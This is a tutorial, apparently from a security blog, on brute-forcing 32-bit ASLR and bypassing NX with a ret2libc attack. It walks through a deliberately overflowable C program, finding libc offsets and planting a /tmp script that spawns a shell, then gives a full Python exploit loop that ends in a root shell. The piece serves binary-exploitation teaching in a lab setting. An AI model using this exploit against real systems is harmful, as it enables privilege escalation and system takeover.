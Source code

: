Title: ASLR Bruteforce
Date: 2017-05-14 15:19
Category: Binary Exploitation
Authors: Quentin Meffre
Summary: How to bypass ASLR and NX protection on a Linux x86 system.
Slug: aslr_bruteforce

#1. Surroundings

```derby
$ uname -a
Linux debian 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u2 (2017-03-07) x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 8.7 (jessie)
Release:	8.7
Codename:	jessie

$ gcc --version
gcc (Debian 4.9.2-10) 4.9.2

$ /lib32/libc.so.6 
GNU C Library (Debian GLIBC 2.19-18+deb8u7) stable release version 2.19, by Roland McGrath et al.
```

#2. Explanation
Today I will show you a method to bruteforce the ASLR. This method is very usefull because it can bypass NX and ASLR protections together! But this method is only available in a x86 or less architecture because of the addresses lenght. The step is very similar as a Ret2libc attack but in our case we will take a LibC base reference address and loop the binary execution while the ASLR isn't set to our LibC reference's address.

#3. Vulnerable binary
<pre><code class="cpp">#include &lt;stdio.h&gt;
#include &lt;string.h&gt;

// gcc main.c -z execstack -fno-stack-protector -m32

void print_name(char *str)
{
  char name[64];

  strcpy(name, str);
  printf("Welcome %s!", name);
}

int main(int ac, char **av)
{
  if (ac != 2)
    {
      printf("Usage : ./a.out [name]\n");
      return 1;
    }
  print_name(av[1]);
  return 0;
}
</code></pre>

<pre><code class="bash">$ checksec --file a.out       
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		   4	   a.out
</code></pre>
It's a very simple peace of code with an overflow in "print_name" function.

#4. The payload
The payload is very easy. It will look like:
<pre><code class="cpp">+-------------------+
|      padding      |
+-------------------+
|  system address's |
+-------------------+
|   exit address's  |
+-------------------+
|  /bin/sh address's |
+-------------------+</code></pre>
Well, it's a Ret2libc as we've seen in the previous article. The particularity is that we don't know any of the addresses we needed. So we first need to know the LibC address's to deduct the addresses we needed.

If we check the library addresses we can see something very interesting:
<pre><code class="bash">$ ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf757f000)

$ ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf75fb000)

$ ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf7555000)

ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf751e000)</code></pre>
There are only 8 bits of the Libc address's which evolves. So if we take randomly one of these addresses, there is a lot of chance that we will get it an other time!

So we've the Libc address, now we need the system/exit offset functions to add it to our base Libc address to know the final addresses function. I will use objdump to get the offsets:
<pre><code class="bash">$ objdump -D /lib32/libc.so.6|egrep "&lt;exit&gt;:|&lt;__libc_system&gt;:"
000311b0 &lt;exit&gt;:
0003e3e0 &lt;__libc_system&gt;:
</code></pre>
It's OK for the addresses offsets. Now we need a string for the first system function argument.
To remind: <pre><code class="cpp">int system(const char *command);</code></pre>
We will use a little trick to do this. We will use a string from the binary section where the addresses don't change (like rodata section). The string need to end with a null byte. ('\0') I'm habits to use a common binary string in the dynstr section:
<pre><code class="bash">$ objdump -s a.out -j .dynstr|grep "gmon"
 804825c 5f676d6f 6e5f7374 6172745f 5f00474c  _gmon_start__.GL
</code></pre>
Great, the string "\_gmon\_start\_\_" will be perfect. As this command does not exist actually, we will create it. The file "/tmp/\_gmon\_start\_\_" will contain:<pre><code class="bash">#!/bin/sh
/bin/sh</code></pre>
No more or less! After did it, we set the correct right to the file and we add "/tmp" repertory to the $PATH environment variable:<pre><code class="bash">chmod 777 /tmp/_gmon_start__ && PATH=$PATH:/tmp</code></pre>
As you might understand, we will execute a command we've create, named "\_gmon\_start\_\_" which will execute a /bin/sh.

It's OK for this part! The last step before writting the exploit is to get the padding. Another time thanks to objdump: <pre><code class="bash">$ objdump -D a.out|grep "&lt;print_name&gt;:" -A 17 -n              
372:0804845b &lt;print_name&gt;:
373- 804845b:	55                   	push   %ebp
374- 804845c:	89 e5                	mov    %esp,%ebp
375- 804845e:	83 ec 48             	sub    $0x48,%esp
376- 8048461:	83 ec 08             	sub    $0x8,%esp
377- 8048464:	ff 75 08             	pushl  0x8(%ebp)
378- 8048467:	8d 45 b8             	lea    -0x48(%ebp),%eax
379- 804846a:	50                   	push   %eax
380- 804846b:	e8 b0 fe ff ff       	call   8048320 &lt;strcpy@plt&gt;
381- 8048470:	83 c4 10             	add    $0x10,%esp
382- 8048473:	83 ec 08             	sub    $0x8,%esp
383- 8048476:	8d 45 b8             	lea    -0x48(%ebp),%eax
384- 8048479:	50                   	push   %eax
385- 804847a:	68 70 85 04 08       	push   $0x8048570
386- 804847f:	e8 8c fe ff ff       	call   8048310 &lt;printf@plt&gt;
387- 8048484:	83 c4 10             	add    $0x10,%esp
388- 8048487:	c9                   	leave  
389- 8048488:	c3                   	ret    
</code></pre> You can see at line 378 that our buffer is at 0x48 bytes from the base pointer. So we just need to add four bytes to this value to also erase ebp value. A little "echo" tricks to convert value from a base to another: <pre><code class="bash">$ echo "ibase=16; 4C"|bc
76</code></pre>
We can now write our exploit!
#5. The exploit
<pre><code class="python">#!/usr/bin/env python
# coding: utf-8

import struct
import subprocess

base = 0xf756e000           # base libc address's
system_offset = 0x0003e3e0  # system offset function
exit_offset = 0x000311b0    # exit offset function
binsh =  0x804825c          # string addresse's (_gmon_start__)

system_addr = base + system_offset # final system address's
exit_addr = base + exit_offset     # final exit address's

payload = "A" * 76
payload += struct.pack("&lt;I",system_addr)
payload += struct.pack("&lt;I",exit_addr)
payload += struct.pack("&lt;I",binsh)

while (1):
    result = subprocess.call(["./a.out", payload])	
    if not result:
    	print "Done"
    	exit(0)
    else:
    	print "KO\n"
</code></pre>
#6. Exploitation
Sometimes the input/output failed, so you need to retry the exploitation to correct it.

A root shell per favor!
<pre><code class="bash">$ python exploit.py
...
KO

KO

KO

$ id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
</code></pre>
Done.
